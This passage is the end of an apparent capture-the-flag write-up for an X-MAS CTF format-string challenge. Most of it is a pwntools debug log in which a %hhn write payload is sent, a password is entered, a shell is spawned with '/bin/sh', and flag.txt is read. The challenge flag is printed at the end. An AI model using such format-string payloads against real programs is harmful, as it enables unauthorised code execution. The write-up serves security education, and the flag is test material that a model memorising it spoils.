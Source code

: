 ```python
    00000030  25 31 39 24  68 68 6e 25  32 35 63 25  32 30 24 68  │%19$│hhn%│25c%│20$h│
    00000040  68 6e 61 61  61 61 62 61  20 40 40 00  00 00 00 00  │hnaa│aaba│ @@·│····│
    00000050  21 40 40 00  00 00 00 00  25 40 40 00  00 00 00 00  │!@@·│····│%@@·│····│
    00000060  24 40 40 00  00 00 00 00  22 40 40 00  00 00 00 00  │$@@·│····│"@@·│····│
    00000070  23 40 40 00  00 00 00 00  0a                        │#@@·│····│·│
    00000079
[DEBUG] Received 0x149 bytes:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000040  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 70  │    │    │    │   p│
    00000050  20 20 20 20  d0 20 20 20  20 20 20 20  20 20 20 20  │    │·   │    │    │
    00000060  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    00000070  20 20 20 20  20 20 20 20  20 20 20 20  20 20 51 20  │    │    │    │  Q │
    00000080  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000000a0  c0 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │·   │    │    │    │
    000000b0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000120  20 20 20 20  20 20 c0 20  20 20 20 20  20 20 20 20  │    │  · │    │    │
    00000130  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 25  │    │    │    │   %│
    00000140  61 61 61 61  62 61 20 40  40                        │aaaa│ba @│@│
    00000149
[DEBUG] Sent 0xe bytes:
    b'GumaTurbo123!\n'
[DEBUG] Received 0x21 bytes:
    b'Access granted! Filters disabled!'
[DEBUG] Received 0x16 bytes:
    b'\n'
    b'Check out port 14712\n'
[DEBUG] Sent 0x9 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000009
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x2d bytes:
    b'bin\n'
    b'dev\n'
    b'flag.txt\n'
    b'fmt_string\n'
    b'lib\n'
    b'lib64\n'
    b'secret\n'
bin
dev
flag.txt
fmt_string
lib
lib64
secret
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
```
That wraps things up.
## Flag
`X-MAS{1_4m_n07_sl4ck1ng_0ff_1_4m_jus7_w41t1ng_f0r_th3_b1n4ry_t0_b3_l34k3d}`
